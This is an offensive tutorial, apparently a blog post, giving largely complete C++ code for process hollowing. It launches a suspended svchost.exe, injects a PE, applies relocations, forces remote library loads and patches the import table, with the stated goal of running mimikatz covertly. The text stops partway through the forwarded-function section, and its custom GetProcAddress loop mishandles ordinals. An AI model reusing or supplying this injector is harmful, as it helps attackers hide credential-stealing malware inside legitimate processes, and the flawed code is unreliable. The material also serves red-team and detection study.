How to perform a Complete Process Hollowing
How to perform a Complete Process Hollowing
Table of Content
- Abstract
- Basic Process Hollowing
- Make the remote process load the required libraries
- Handle forwarded functions on remote process
- Handle API set
- Final Touch: Retrieve output of our injected process
- Plot Twist
- References
Abstract
When someone is interested in code injection, he encounters Process Hollowing technic which consists in creating a remote process in a suspended state, write a payload in the remote process memory and overwrite the address of entry point with the address of the payload. A lot of articles on internet explain really well how the technique works and how to implement it in C/C++ using a PE as a payload.
However, all the articles about this technique lack one specific thing: handling the import table of the injected PE. When Local Reflective Execution is performed, it is just needed to iterate over the IAT and delayed IAT to import the needed libraries and resolve the required functions to fix the tables. The purpose of this blog post is to demonstrate how it is possble to fix the IAT and delayed IAT remotely when a PE is injected on a remote process.
This article does not show a new evasion technic but an improvement of an old technic used to inject PE in a remote process.
Basic Process Hollowing
This first section is a reminder of how to implement basic process hollowing with a PE without any IAT such as a meterpreter or Havoc payload. The article will not go into deep details about the basic process hollowing process since there are a lot of articles which explains better the technic. I suggest to read the article from ired.team about process hollowing if you want to have more details about the basics.
For people who already knows about the process hollowing, I suggest to directly jump to Make the remote process load the libraries required
chapter.
Definition
Process Hollowing is an injection technique that injects PE payloads into the address space of a remote process. The remote process is often a legitimate process created by the process hollowing implementation.
A typical process hollowing implementation generally creates a suspended process via the CreateProcess WinAPI and then calls NtUnmapViewOfSection to unmap the legitimate process image of the remote process. Once that’s done, NtMapViewOfSection is called to map the PE payload’s binary image instead.

Start a suspended process
The first step is pretty straightforward. It is to create a process in a suspended state. The process needs to have the same architecture as the PE that we want to inject.(x64 PE on x64 process, x86 PE on x86 process, etc.). For the blog post the executable that will be used as the legitimate process will be svchost.exe.
To create the process, the WinAPI function CreateProcessA will be used. A little function, which will juste take as arguments, our process name that we want to execute and a pointer to a process information struct which will be initialiazed by the function CreateProcessA, will be created. The process information structure pi is used to retrieve the process handle and the main thread handle.
BOOL launchSuspendedProcess(LPCSTR processName, LPPROCESS_INFORMATION pi)
{
// init an empty STARTUP INFO structure required by the function CreateProcessA
STARTUPINFOA si = { 0 };
if (!CreateProcessA(processName, NULL, NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, &si, pi))
{
_err("[-] ERROR: Cannot create process %s", processName);
return FALSE;
}
_dbg("[+] Launching process %s with PID: %d\r\n", processName, pi->dwProcessId);
return TRUE;
}
int main()
{
PROCESS_INFORMATION pi = { 0 };
LPCSTR target = "C:\\Windows\\System32\\svchost.exe";
if(!launchSuspendedProcess(target, &pi))
return -1;
return 0;
}LoadPE and Retrieve NT Headers
For the article, a function to read a PE file from disk and to load it in a byte array is used. Alternatives can be done such as:
- embed the PE as a byte array in our code
- retrieve the PE remotely from a web server
BOOL loadPEFromDisk(LPCSTR peName, LPVOID& peContent, PDWORD peSizeReturn)
{
HANDLE hPe = NULL;
hPe = CreateFileA(peName, GENERIC_READ, NULL, NULL, OPEN_EXISTING, NULL, NULL);
if (hPe == INVALID_HANDLE_VALUE || !hPe)
{
_err("[-] Error PE to load does not exist or not enough permission to read file: %x\r\n", GetLastError());
return FALSE;
}
*peSizeReturn = GetFileSize(hPe, NULL);
_dbg("[+] DLL %s loaded\r\n", peName);
_dbg("[+] DLL size: %lu bytes \r\n", *peSizeReturn);
peContent = LocalAlloc(LPTR, *peSizeReturn);
if (peContent == NULL)
{
_err("[-] ERROR in allocating in HEAP\r\n");
return FALSE;
}
if (!ReadFile(hPe, peContent, *peSizeReturn, NULL, NULL))
{
_err("[-] ERROR copying Dll in HEAP \r\n");
return FALSE;
}
_dbg("[+] Allocating size of Dll on the HEAP @ 0x%p\r\n", peContent);
if (!CloseHandle(hPe))
{
_err("[-] ERROR in closing Handle on file %s", peName);
return FALSE;
}
return TRUE;
}To perform process hollowing, the injected PE NT Header is needed.
For those who are unfamiliar with PE format, it is suggested to read the really good serie of articles by 0xrick.
Here a simple function to retrieve the NT Header from the injected PE content.
BOOL retrieveNtHeader(PIMAGE_NT_HEADERS& ntHeader, LPVOID peContent)
{
PIMAGE_DOS_HEADER dosHeaders = (PIMAGE_DOS_HEADER)peContent;
if (dosHeaders->e_magic != IMAGE_DOS_SIGNATURE)
{
_err("[-] ERROR: Input file seems to not be a PE\r\n");
return FALSE;
}
ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)dosHeaders + dosHeaders->e_lfanew);
_dbg("[+] Dos Header: 0x%x\r\n", dosHeaders->e_magic);
_dbg("[+] NT headers: 0x%p\r\n", ntHeader);
return TRUE;
}Allocate Memory
Once the suspended process is created and the NT Header retrieved, we need to allocate memory on the remote process to store the payload.
The size of the injected PE image will be used to allocate memory.
PVOID allocAddrOnTarget = NULL;
allocAddrOnTarget = VirtualAllocEx(pi->hProcess, NULL, peInjectNtHeader->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!allocAddrOnTarget)
{
_err("Error in allocating memory on target process: %x\r\n", GetLastError());
exit(1);
}Once the memory has been allocated, it is required to compute the offset between the allocation address and the preferred Image Base Address of the PE contained in the OptionalHeaders. This offset will be used to patch the binary during the relocation phase.
DWORD64 DeltaImageBase = (DWORD64)allocAddrOnTarget - peInjectNtHeader->OptionalHeader.ImageBase;On most articles, the allocation is performed on the Image base Address of the legitimate process after beeing unmapped. However it has been preferred to not touch the original memory of process and let the operating system decide where the allocation will be made because, to load missing libraries of the injected PE into the remote process, it is needed to create remote threads. The process crashes when we attempt to create a remote thread when the remote process Image is unmapped. Therefore, it is needed to let untouched the original Image.
Copy PE in target process
Once the memory has been allocated, it is possible to copy our PE in the target process.
In a first time, it is required to update the ImageBase address in the NT Header with the address of the allocated memory. Once done, the injected PE headers will be copied in our newly allocated memory.
Then, by iterating over the section headers the content of the sections will be copied inside the allocated memory.
During the relocation phase, the .reloc section header will be needed, therefore the function that will copy the injected PE will return the section header.
Finaly, the function will change the permission on the .text section to make it executable.
BOOL copyPEinTargetProcess(HANDLE pHandle, LPVOID& allocAddrOnTarget, LPVOID peToInjectContent, PIMAGE_NT_HEADERS64 peInjectNtHeader, PIMAGE_SECTION_HEADER& peToInjectRelocSection)
{
peInjectNtHeader->OptionalHeader.ImageBase = (DWORD64)allocAddrOnTarget;
_dbg("[+] Writing Header into target process\r\n");
if (!WriteProcessMemory(pHandle, allocAddrOnTarget, peToInjectContent, peInjectNtHeader->OptionalHeader.SizeOfHeaders, NULL))
{
_err("[-] ERROR: Cannot write headers inside the target process. ERROR Code: %x\r\n", GetLastError());
return FALSE;
}
_dbg("\t[+] Headers written at : 0x%p\n", allocAddrOnTarget);
_dbg("[+] Writing section into target process\r\n");
for (int i = 0; i < peInjectNtHeader->FileHeader.NumberOfSections; i++)
{
PIMAGE_SECTION_HEADER currentSectionHeader = (PIMAGE_SECTION_HEADER)((uintptr_t)peInjectNtHeader + 4 + sizeof(IMAGE_FILE_HEADER) + peInjectNtHeader->FileHeader.SizeOfOptionalHeader + (i * sizeof(IMAGE_SECTION_HEADER)));
if (!strcmp((char*)currentSectionHeader->Name, ".reloc"))
{
peToInjectRelocSection = currentSectionHeader;
_dbg("\t[+] Reloc table found @ 0x%p offset\r\n", (LPVOID)(UINT64)currentSectionHeader->VirtualAddress);
}
if (!WriteProcessMemory(pHandle, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress), (LPVOID)((UINT64)peToInjectContent + currentSectionHeader->PointerToRawData), currentSectionHeader->SizeOfRawData, nullptr))
{
_err("[-] ERROR: Cannot write section %s in the target process. ERROR Code: %x\r\n", (char*)currentSectionHeader->Name, GetLastError());
return FALSE;
}
_dbg("\t[+] Section %s written at : 0x%p.\n", (LPSTR)currentSectionHeader->Name, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress));
if (!strcmp((char*)currentSectionHeader->Name, ".text"))
{
DWORD oldProtect = 0;
if (!VirtualProtectEx(pHandle, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress), currentSectionHeader->SizeOfRawData, PAGE_EXECUTE_READ, &oldProtect))
{
_err("Error in changing permissions on .text sections to RX -> 0x%x\r\n", GetLastError());
return FALSE;
}
_dbg("\t[+] Permissions changed to RX on .text section \r\n");
}
}
return TRUE;
}
Image base Relocation
Since the PE was loaded to a different address of the image base address referenced in the NT header, it needs to be patched in order for the binary to resolve addresses of different objects like static variables and other absolute addresses which otherwise would no longer work. The way the windows loader knows how to patch the images in memory is by referring to a relocation table residing in the binary.
The process of the relocation phase is:
- finding the relocation table and cycling through the relocation blocks
- getting the number of required relocations in each relocation block
- reading bytes in the specified relocation addresses
- applying delta (between source and destination imageBaseAddress) to the values specified in the relocation addresses
- writing the new values at specified relocation addresses
- repeating the above until the entire relocation table is traversed
BOOL fixRelocTable(HANDLE pHandle, PIMAGE_SECTION_HEADER peToInjectRelocSection, LPVOID& allocAddrOnTarget, LPVOID peToInjectContent, DWORD64 DeltaImageBase, IMAGE_DATA_DIRECTORY relocationTable)
{
_dbg("[+] Fixing relocation table.\n");
if (peToInjectRelocSection == NULL)
{
_dbg("No Reloc Table\r\n");
return TRUE;
}
DWORD RelocOffset = 0;
while (RelocOffset < relocationTable.Size)
{
PBASE_RELOCATION_BLOCK currentReloc = (PBASE_RELOCATION_BLOCK)((PBYTE)peToInjectContent + peToInjectRelocSection->PointerToRawData + RelocOffset);
RelocOffset += sizeof(IMAGE_BASE_RELOCATION);
DWORD NumberOfEntries = (currentReloc->BlockSize - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(BASE_RELOCATION_ENTRY);
_dbg("[*] Number of relocation: %d\r\n", NumberOfEntries);
for (DWORD i = 0; i < NumberOfEntries; i++)
{
PBASE_RELOCATION_ENTRY currentRelocEntry = (PBASE_RELOCATION_ENTRY)((PBYTE)peToInjectContent + peToInjectRelocSection->PointerToRawData + RelocOffset);
RelocOffset += sizeof(BASE_RELOCATION_ENTRY);
if (currentRelocEntry->Type == 0)
continue;
PVOID AddressLocation = (PBYTE)allocAddrOnTarget + currentReloc->PageAddress + currentRelocEntry->Offset;
PBYTE PatchedAddress = 0;
if (!ReadProcessMemory(pHandle, (PVOID)AddressLocation, &PatchedAddress, sizeof(PVOID), nullptr))
{
_err("[-] ERROR: Cannot read target process memory at %p, ERROR CODE: %x\r\n", (PVOID)((UINT64)AddressLocation), GetLastError());
return FALSE;
}
_dbg("\t[+] Address To Patch: %p -> Address Patched: %p \r\n", (VOID*)PatchedAddress, (VOID*)(PatchedAddress + DeltaImageBase));
PatchedAddress += DeltaImageBase;
if (!WriteProcessMemory(pHandle, (PVOID)AddressLocation, &PatchedAddress, sizeof(PVOID), nullptr))
{
_err("[-] ERROR: Cannot write into target process memory at %p, ERROR CODE: %x\r\n", (PVOID)((UINT64)AddressLocation), GetLastError());
return FALSE;
}
}
}
return TRUE;
}
Changing the entrypoint and resuming the execution
After the relocation phase done. The last step is to change the address of the register RCX of the remote process thread context with the address of the entrypoint of the injected PE. Also it is needed to change the address of the Image Base Address included in the PEB which is contained in the RDX register.
CONTEXT CTX = {};
CTX.ContextFlags = CONTEXT_FULL;
// Retrieve main thread context of the remote process
BOOL bGetContext = GetThreadContext(pi->hThread, &CTX);
if (!bGetContext)
{
_dbg("[-] An error occured when trying to get the thread context.\n");
return FALSE;
}
// Overwrite the Image Base Address inside the PEB
// PEB @ RDX
// PPEB->ImageBaseAddress = PPEB+0x10
BOOL bWritePEB = WriteProcessMemory(pi->hProcess, (PVOID)(CTX.Rdx + 0x10), &peInjectNtHeader->OptionalHeader.ImageBase, sizeof(PVOID), nullptr);
if (!bWritePEB)
{
_dbg("[-] An error occured when trying to write the image base in the PEB.\n");
return FALSE;
}
// Overwrite RCX with the address of the injected PE entry point
CTX.Rcx = (DWORD64)allocAddrOnTarget + peInjectNtHeader->OptionalHeader.AddressOfEntryPoint;
BOOL bSetContext = SetThreadContext(pi->hThread, &CTX);
if (!bSetContext)
{
_dbg("[-] An error occured when trying to set the thread context.\n");
return FALSE;
}
// Resume the thread
ResumeThread(pi->hThread);
Once the thread resumed, we obtain our calc.exe. However, if we change the injected PE with a binary which has an IAT such as mimikatz, we can observe that the process crashes because it lacks the dependancies.

We now need to resolve the mimikatz IAT to be able to execute it without any crash.

Make the remote process load the required libraries
Load an arbitrary DLL in a remote process
Having established a basic process hollowing code, our objective is to enhance it to be able to load any PE. We will use the binary mimikatz as our injected PE, while maintaining the svchost binary as the remote process into which we intend to inject mimikatz.
The first step is a common technic used to make a remote process load an arbitrary DLL:
- Allocate memory in the remote process
- Write the name of the DLL inside the remote process in our newly allocated memory
- Create a remote thread on
LoadLibraryfunction with our DLL name as argument.
We can determine the address of LoadLibraryA, because every process on a Windows system has the same addresses for the libraries ntdll.dll and kernel32.dll which are automaticaly loaded. Since LoadLibraryA is declared in kernel32.dll, we only need to resolve the address of LoadLibraryA in our process and it will be the exact same address in the remote process.
BOOL remoteLoadLibrary(HANDLE hProcess, PCHAR libToLoad)
{
PVOID addr = VirtualAllocEx(hProcess, NULL, strlen(libToLoad) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (!addr)
{
_err("Error allocating memory into process 0x%x\r\n", GetLastError());
return FALSE;
}
if (!WriteProcessMemory(hProcess, addr, libToLoad, strlen(libToLoad) + 1, NULL))
{
_err("Error in writing into process @0x%p -> 0x%x\r\n", addr, GetLastError());
return FALSE;
}
PVOID loadlib = GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadlib, addr, 0, NULL);
if (hThread == INVALID_HANDLE_VALUE or !hThread)
{
_err("Error in creating remote thread 0x%x\r\n", GetLastError());
return FALSE;
}
WaitForSingleObject(hThread, INFINITE);
return TRUE;
}Let’s try our function to make our svchost process load winhttp.dll for example.

When we look at the process launched in suspended state, we can observe that only the ntdll.dll is loaded.
But if we call our function, we will observe that winhttp.dll will be sucessfuly loaded.

The other loaded dll are the libraries needed by the legitimate svchost process.
Resolve injected PE IAT to make the remote process load all the dependencies
Now that we have a method to make the remote process load arbitrary DLLs, we now need to parse our injected PE to retrieve all its dependancies.
When a PE is loaded, there is a difference in addresses between the PE on the disk and the PE in memory. For example, when we copy our PE sections, we retrieve the section through the attribute PointerToRawData but the destination use the attribute VirtualAddress. When we open our binary in PE Bear, we can easily observe that there is a difference in the section mapping when it is on the disk and when it is loaded in memory.

Since the IAT is located in the .rdata section, if we retrieve it like we would have done when performing reflective loading, we won’t be able to get it since there is an offset between our PE read from the disk and the PE that is loaded in memory. Therefore, in a first time we will modify slightly our function copyPEinTargetProcess to be able to retrieve the .rdata offset between the PointerToRawData and the VirtualAddress.
BOOL copyPEinTargetProcess(HANDLE pHandle, PVOID& allocAddrOnTarget, LPVOID peToInjectContent, PIMAGE_NT_HEADERS64 peInjectNtHeaders, PIMAGE_SECTION_HEADER& peToInjectRelocSection, PDWORD offsetRdata)
{
peInjectNtHeaders->OptionalHeader.ImageBase = (DWORD64)allocAddrOnTarget;
_dbg("[+] Writing Header into target process\r\n");
if (!WriteProcessMemory(pHandle, allocAddrOnTarget, peToInjectContent, peInjectNtHeaders->OptionalHeader.SizeOfHeaders, NULL))
{
_err("[-] ERROR: Cannot write headers inside the target process. ERROR Code: %x\r\n", GetLastError());
return FALSE;
}
_dbg("\t[+] Headers written at : 0x%p\n", allocAddrOnTarget);
_dbg("[+] Writing section into target process\r\n");
for (int i = 0; i < peInjectNtHeaders->FileHeader.NumberOfSections; i++)
{
PIMAGE_SECTION_HEADER currentSectionHeader = (PIMAGE_SECTION_HEADER)((uintptr_t)peInjectNtHeaders + 4 + sizeof(IMAGE_FILE_HEADER) + peInjectNtHeaders->FileHeader.SizeOfOptionalHeader + (i * sizeof(IMAGE_SECTION_HEADER)));
if (!strcmp((char*)currentSectionHeader->Name, ".reloc"))
{
peToInjectRelocSection = currentSectionHeader;
_dbg("\t[+] Reloc table found @ 0x%p offset\r\n", (LPVOID)(UINT64)currentSectionHeader->VirtualAddress);
}
if (!WriteProcessMemory(pHandle, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress), (LPVOID)((UINT64)peToInjectContent + currentSectionHeader->PointerToRawData), currentSectionHeader->SizeOfRawData, nullptr))
{
_err("[-] ERROR: Cannot write section %s in the target process. ERROR Code: %x\r\n", (char*)currentSectionHeader->Name, GetLastError());
return FALSE;
}
_dbg("\t[+] Section %s written at : 0x%p.\n", (LPSTR)currentSectionHeader->Name, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress));
if (!strcmp((char*)currentSectionHeader->Name, ".rdata"))
{
*offsetRdata = currentSectionHeader->VirtualAddress - currentSectionHeader->PointerToRawData;
}
if (!strcmp((char*)currentSectionHeader->Name, ".text"))
{
DWORD oldProtect = 0;
if (!VirtualProtectEx(pHandle, (LPVOID)((UINT64)allocAddrOnTarget + currentSectionHeader->VirtualAddress), currentSectionHeader->SizeOfRawData, PAGE_EXECUTE_READ, &oldProtect))
{
_err("Error in changing permissions on .text sections to RX -> 0x%x\r\n", GetLastError());
return FALSE;
}
_dbg("\t[+] Permissions changed to RX on .text section \r\n");
}
}
return TRUE;
}The function now takes an additional argument that is a pointer to a DWORD to be able to retrieve the offset of rdata section.
Now let’s create a little function to test if we can resolve mimikatz IAT. To resolve it we need to get a pointer to the first import descriptor (do not forget to apply the .rdata offset when we compute the address) PIMAGE_IMPORT_DESCRIPTOR importDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)((PBYTE)pImage + importsDirectory.VirtualAddress - offsetRdata );. And then we need to iterate until the structure is empty to retrieve all libraries in the IAT.
BOOL loadImportTableLibs(LPVOID pImage, PIMAGE_NT_HEADERS64 ntHeaders, DWORD offsetRdata)
{
PIMAGE_IMPORT_DESCRIPTOR importDescriptor = NULL;
IMAGE_DATA_DIRECTORY importsDirectory = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
if (importsDirectory.Size <= 20)
{
_dbg("[*] Empty IAT");
return TRUE;
}
importDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)(importsDirectory.VirtualAddress - offsetRdata + (PBYTE)pImage);
_dbg("[*] Get Import Directory Table at %p\r\n", importDescriptor);
LPSTR libName = NULL;
HMODULE lib = NULL;
while (importDescriptor->Name != NULL)
{
libName = (LPSTR)(importDescriptor->Name + (DWORD_PTR)pImage - offsetRdata);
_dbg("[*] library to load: %s\r\n", libName);
importDescriptor++;
}
return TRUE;
}
As observed, we can resolve mimikatz IAT. Now we can apply our function remoteLoadLibrary in the function to make our remote process load our dependancies.
BOOL loadImportTableLibs(LPVOID pImage, PIMAGE_NT_HEADERS64 ntHeaders, LPPROCESS_INFORMATION pi, DWORD offsetRdata)
{
...
while (importDescriptor->Name != NULL)
{
libName = (LPSTR)(importDescriptor->Name + (DWORD_PTR)pImage - offsetRdata);
_dbg("[*] library to load: %s\r\n", libName);
if (!remoteLoadLibrary(pi->hProcess, libName))
return FALSE;
importDescriptor++;
}
return TRUE;
}Now let’s check if our process has successfuly loaded mimikatz dependencies.

We can observe that our process has loaded all mimikatz dependencies. Now let’s find a way to find the libraries base address in our code to be able to fix the IAT addresses.
Resolve the functions and libraries addresses on the remote process
Retrieve the libraries and function addresses
Now that we have our remote process with mimikatz dependancies loaded, we need to retrieve the address of the functions referenced in the IAT to be able to patch it. Otherwise, the pointers of the DLL imports will point to incorrect addresses.
To retrieve the loaded libraries in the remote process, we need to create a snapshot of our remote process using the function CreateToolhelp32Snapshot. The function will return a HANDLE on the snapshot on which we will be able to call the functions Module32FirstW and Module32NextW to retrieve the different libraries with the corresponding addresses. The functions return a MODULEENTRY32W structure used to represent the loaded library.
Let’s create a little function to enumerate the loaded libraries to determine if we can successfuly retrieve the corresponding addresses.
BOOL listModulesOfProcess(int pid) {
HANDLE mod;
MODULEENTRY32W me32;
mod = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE | TH32CS_SNAPMODULE32, pid);
if (mod == INVALID_HANDLE_VALUE) {
_err("ERROR in creating SnapShot: %x\n", GetLastError());
return FALSE;
}
me32.dwSize = sizeof(MODULEENTRY32W);
if (!Module32FirstW(mod, &me32)) {
_err("No Module Found %x", GetLastError());
CloseHandle(mod);
return FALSE;
}
_dbg("Loaded Modules:\n");
_dbg("name\t\t\t base address\t\t\tsize\n");
_dbg("=================================================================================\n");
do {
_dbg("%#25ws\t\t%#10llx\t\t%#10d\n", me32.szModule, me32.modBaseAddr, me32.modBaseSize);
} while (Module32NextW(mod, &me32));
CloseHandle(mod);
return 0;
}
We can observe that we can retrieve the correct addresses for the loaded libraries.
Let’s create a function to create a snapshot of our remote process and another function to retrieve a module from its name and from a HANDLE of the remote process snapshot.
HANDLE getSnapShotProcess(int pid) {
HANDLE mod;
mod = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE | TH32CS_SNAPMODULE32, pid);
if (mod == INVALID_HANDLE_VALUE) {
_err("CreateToolhelp32Snapshot error %x\r\n", GetLastError());
return nullptr;
}
return mod;
}
MODULEENTRY32W getModuleEntry(HANDLE snapShotHandle, PWSTR moduleSearched)
{
MODULEENTRY32W me32;
me32.dwSize = sizeof(MODULEENTRY32W);
if (!Module32FirstW(snapShotHandle, &me32)) {
return { 0 };
}
do {
if (!lstrcmpiW(me32.szModule, moduleSearched))
{
return me32;
}
} while (Module32NextW(snapShotHandle, &me32));
return { 0 };
}Like we would have done in a reflective loader, from the import descriptors retrieved previously, we will import locally the libraries needed by our injected PE. It will be used to retrieve the offset of our functions. Then we will iterate over all the thunks of the import descriptors. These thunks are data structures describing functions corresponding to the library imports.
The thunks can reference the corresponding function by its ordinal or by its name. Therefore, it is needed to apply the macro IMAGE_SNAP_BY_ORDINAL used to determine if the thunk reference the function through its ordinal or its name IMAGE_SNAP_BY_ORDINAL(thunk->u1.Ordinal).
If the function is referenced by ordinal, we can resolve the function by calling GetProcAddress to resolve the function address.
If the function is referenced by its name, we need to calculate the pointer to the name: PIMAGE_IMPORT_BY_NAME functionName = (PIMAGE_IMPORT_BY_NAME)((DWORD_PTR)pImage + thunk->u1.AddressOfData - offsetRdata);. Then, we can call the function GetProcAddress to resolve the function address.
Once we have the function address, we can calculate its offset in the corresponding library to be able to calculate its address in the remote process.
Now we need to find the thunk location on the remote process to write our patched address. We need to:
- retrieve the address of the function address to patch
&(thunk->u1.Function) - apply the
.rdataoffset on the address previously retrieved(PBYTE)(&(thunkFct->u1.Function)) + offsetRdata - substract the address of DLL locally loaded:
(PBYTE)(&(thunk->u1.Function)) + offsetRdata - (PBYTE)pImage - finally add the address of memory allocation on the remote process:
(PBYTE)(&(thunk->u1.Function)) + offsetRdata - (PBYTE)pImage + (PBYTE)allocAddrOnTarget
Now we have everything, we can just call the function WriteProcessMemory to patch the function address.
bool fixImports(LPVOID pImage, PIMAGE_NT_HEADERS64 ntHeaders, LPPROCESS_INFORMATION pi, PVOID allocAddrOnTarget, DWORD offsetRdata, HANDLE mod)
{
_dbg("[*] Fixing Import table\r\n");
PIMAGE_IMPORT_DESCRIPTOR importDescriptor = NULL;
IMAGE_DATA_DIRECTORY importsDirectory = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
if (importsDirectory.Size <= 20)
{
_dbg("[*] Empty IAT");
return TRUE;
}
HMODULE lib = nullptr;
importDescriptor = (PIMAGE_IMPORT_DESCRIPTOR)(importsDirectory.VirtualAddress - offsetRdata + (PBYTE)pImage);
while (importDescriptor->Name != NULL)
{
PWSTR moduleSearched = strToWstr((LPSTR)(importDescriptor->Name - offsetRdata + (DWORD_PTR)pImage));
lib = LoadLibraryW(moduleSearched);
if (!lib)
{
_err("Error in retrieving locally the lib %ws -> 0x%x\r\n", moduleSearched, GetLastError());
return FALSE;
}
MODULEENTRY32W me32 = getModuleEntry(mod, moduleSearched);
_dbg("Import found %ws -> %ws @ 0x%p \r\n", moduleSearched, me32.szModule, me32.modBaseAddr);
if (me32.modBaseAddr != 0)
{
PIMAGE_THUNK_DATA thunk = NULL;
thunk = (PIMAGE_THUNK_DATA)((DWORD_PTR)pImage + importDescriptor->FirstThunk - offsetRdata);
while (thunk->u1.AddressOfData != NULL)
{
if (IMAGE_SNAP_BY_ORDINAL(thunk->u1.Ordinal))
{
LPCSTR functionOrdinal = (LPCSTR)IMAGE_ORDINAL(thunk->u1.Ordinal);
PVOID remoteAddr = (PVOID)((PBYTE)(&thunk->u1.Function) + offsetRdata - (PBYTE)pImage + (PBYTE)allocAddrOnTarget);
PVOID localAddr = (PBYTE)GetProcAddress(lib, functionOrdinal);
DWORD offset = (PBYTE)localAddr - (PBYTE)lib;
ULONGLONG addrFix = (ULONGLONG)((PBYTE)me32.modBaseAddr + offset);
if (!WriteProcessMemory(pi->hProcess, remoteAddr, &addrFix, sizeof(ULONGLONG), NULL))
{
_err("Error in fixing address of function number %d -> 0x%x\r\n", thunk->u1.Ordinal, GetLastError());
return FALSE;
}
_dbg("\t[*] Imported function number %d @ 0x%p\r\n", thunk->u1.Ordinal, addrFix);
}
else
{
PIMAGE_IMPORT_BY_NAME functionName = (PIMAGE_IMPORT_BY_NAME)((DWORD_PTR)pImage + thunk->u1.AddressOfData - offsetRdata);
PVOID remoteAddr = (PVOID)((PBYTE)(&(thunk->u1.Function)) + offsetRdata - (PBYTE)pImage + (PBYTE)allocAddrOnTarget);
PVOID addrFunc = GetProcAddress(lib, functionName->Name);
DWORD offset = 0;
PVOID addrFix = 0;
offset = (PBYTE)addrFunc - (PBYTE)lib;
addrFix = ((PBYTE)me32.modBaseAddr + offset);
if (!WriteProcessMemory(pi->hProcess, remoteAddr, &addrFix, sizeof(PVOID), NULL))
{
_err("Error in fixing address of function %s -> 0x%x\r\n", functionName->Name, GetLastError());
return FALSE;
}
_dbg("\t[*] Imported function %s @ 0x%p\r\n", functionName->Name, addrFix);
}
thunk++;
}
}
importDescriptor++;
}
return TRUE;
}Now let’s wrap up everything and test if it is working. 
If we put a debugger on our remote process, we can observe that when we resume the main thread, the process crashes with an access violation. If we look at the address where the access violation occurs, we can observe that it is related to the function LsaConnectUntrusted from the library Secur32.dll.
Let’s find out what happened.
Let’s write a little C code to perform D/Invoke on the function LsaConnectUntrusted.

We can observe that despite using a HANDLE on Secur32.dll, the address of LsaConnectUntrusted is located in the library sspicli.dll.
It is what we call a Forwarded Function. It is an exported function of Secur32.dll but which is forwarded to the library sspicli.dll.
Handle forwarded functions on remote process
Definition of a forwarded function
First let’s define what is a forwarded function.
In the context of dynamic-link libraries (DLLs), a forwarded function refers to a function that is not directly implemented within the DLL itself but is instead provided by another DLL. When a program calls a forwarded function in a DLL, the control is transferred to the corresponding function in another DLL.
The forwarding information is typically stored in the export table of the DLL. The export table contains a list of functions that the DLL makes available to other programs, and for forwarded functions, it includes a reference to the DLL and the specific function to which the call should be forwarded.
Here is a simplified example to illustrate how a forwarded function might be set up:
- Original DLL (A.dll):
- Implements some functions.
- Has an export table that includes information about the functions it exports.
- Forwarded DLL (B.dll):
- Implements the forwarded function(s).
- When A.dll exports a function that is forwarded to B.dll, the export table of A.dll contains information about the forwarding, specifying that the function is provided by B.dll.
- Client Program:
- Calls a function from A.dll, including the forwarded function.
- When the forwarded function is called, control is transferred to B.dll, where the actual implementation resides.
Custom GetProcAddress
To be able to determine if a function is a forwarded function, we need to implement a custom GetProcAddress function which will return the forwarded library name and the forwarded function name if we are in the context of a forwarded function.
GetProcAddress function parses the loaded library passed in argument. First the function needs to retrieve the export directory of the library.
PVOID getAddrFunction(HMODULE lib, PCHAR functionName, PCHAR& forwardedLib, PCHAR& forwardedName)
{
// Get DOS Header
PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)lib;
// Get Nt Header
PIMAGE_NT_HEADERS imageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD_PTR)lib + dosHeader->e_lfanew);
//Get offset of export directory
DWORD_PTR exportDirectoryRVA = imageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress;
// Get export directory size
SIZE_T exportDirectorySize = imageNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size;
// Retrieve the export directory
PIMAGE_EXPORT_DIRECTORY imageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((DWORD_PTR)lib + exportDirectoryRVA);
}Once we have the export directory, we will retrieve 3 arrays:
- an array containing the addresses of the exported functions
- an array containing the ordinal of the exported functions
- an array containing the names of the exported funtions
// Get array containing the addresses of the exported functions
PDWORD addressOfFunctionsRVA = (PDWORD)((DWORD_PTR)lib + imageExportDirectory->AddressOfFunctions);
// Get array containing the names of the exported funtions
PDWORD addressOfNamesRVA = (PDWORD)((DWORD_PTR)lib + imageExportDirectory->AddressOfNames);
// Get array containing the ordial of the exported functions
PWORD addressOfNameOrdinalsRVA = (PWORD)((DWORD_PTR)lib + imageExportDirectory->AddressOfNameOrdinals);We now can iterate over the exported functions to retrieve the wanted function. Caution, the index of the function address is not the same as the index of its name. We need to use the ordinal as index.
for (DWORD i = 0; i < imageExportDirectory->NumberOfFunctions; i++)
{
// Retrieve the function name
PSTR name = (PSTR)((PBYTE)lib+ addressOfNamesRVA[i]);
// Retrieve the ordinal of the function
WORD ordinalName = (WORD)((PBYTE)lib + addressOfNameOrdinalsRVA[i]);
// Retrieve the function address
PVOID addr = (PVOID)((PBYTE)lib + addressOfFunctionsRVA[ordinalName]);
if (!strcmp(functionName, name))
{
return addr;
}
}Now that we have re-implemented GetProcAddress, we need our function to resolve the function when it is a forwarded one. To determine if the function is a forwarded function or not, we will observe if the function address is in the memory space of the export directory.
